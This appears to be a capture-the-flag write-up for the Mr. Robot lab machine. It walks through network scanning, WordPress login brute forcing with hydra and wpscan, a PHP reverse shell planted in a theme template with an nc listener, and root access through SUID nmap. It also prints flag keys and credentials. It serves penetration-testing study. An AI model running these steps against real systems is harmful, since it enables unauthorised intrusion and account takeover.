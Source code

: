 We begin enumeration by scanning our net work with nmap
```
nmap -sV -sP 10.0.0.93/24
```
We find the target ip and do another nmap scan on the target box to find open ports:

```
nmap -sV -sC -vv -T4 10.0.0.48
```
We then enumerate with gobuster and see if there is a robots file and we find the first key:

key1: 073403c8a58a1f80d943455fb30724b9

We also find what looks to be a password list listed in the robots.txt file.

```
gobuster dir -u http://10.0.0.48/ -w=/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
Continuing with enumeration we begin to look at the websites looking for user credentials and any clues.
We find a wordpress admin site and decide to use ```burpsuite``` to intercept the request. Since this is a machine based on the series mr.robot we are going to use hydra and combine the name ```Elliot``` who is the main character of the series and attempt to brute force the wordpress log in form. We find the username and password for the wp site.
```Elliot ER28-0652```
commands used: 
```
hydra -l fsocity.dic -P 123  10.0.0.48 http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username"
```

```
 wpscan -t 10000 --url http://10.0.0.48 --usernames Elliot --passwords fsoc.dic
```
Once in the site we go to appeareans >> edit & and the php revershell to the 404.php template open up a ncat listener on port 4444 ```nc -nlvp 4444``` and gain acces as daemon of which we then find the robot user and a file with an md5 hash that is theu sers password and log in as that user.

key 2: 822c73956184f694993bede3eb39f959

We then run the command:
```
find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
to find weak binaries and found nmap installed on the server.

when then ran ```nmap --interactive``` ```!sh``` and gained a root shell
key3: 04787ddef27c3dee1ee161b21670b4e4

system has been rooted action is no longer required.
